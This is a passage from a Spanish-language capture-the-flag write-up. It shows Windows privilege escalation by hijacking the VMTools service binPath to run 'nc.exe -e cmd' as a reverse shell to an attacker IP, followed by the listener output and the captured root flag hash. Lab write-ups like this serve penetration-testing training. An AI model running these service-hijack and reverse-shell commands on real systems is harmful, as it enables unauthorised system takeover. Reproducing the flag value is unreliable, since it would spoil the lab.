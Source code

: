 ```bash
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc    
```

Se identificó el servicio VMTools ejecutándose con privilegios elevados. Se procedió a detener dicho servicio mediante sc.exe stop VMTools y, una vez detenido, se modificó su ruta de ejecución utilizando sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.16.6 443", de forma que al reiniciarlo ejecutase el binario previamente subido de netcat, el cual establecería una reverse shell hacia el equipo atacante. 
```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe stop VMTools 

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.16.6 443"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe start VMTools
```

Mientras tanto, en el equipo atacante se dejó netcat en escucha en el puerto 443 con el comando nc -nlvp 443. Una vez iniciado el servicio modificado en la máquina víctima, se estableció exitosamente una conexión inversa, proporcionando acceso a una consola remota con privilegios elevados.
```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.108] 55325
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

### Captura de la Flag de root
Una vez obtenida la shell privilegiada, se accedió al directorio Desktop del usuario Administrator. revelando así la flag de administrador:
```bash
C:\Windows\system32>cd C:\Users\Administrator\Desktop 
cd C:\Users\Administrator\Desktop 

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3A0C-428E

 Directory of C:\Users\Administrator\Desktop

09/27/2021  04:22 AM    <DIR>          .
09/27/2021  04:22 AM    <DIR>          ..
06/15/2025  10:08 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   8,778,104,832 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
99678a9d2d505783122c27c1b4dad8bd
```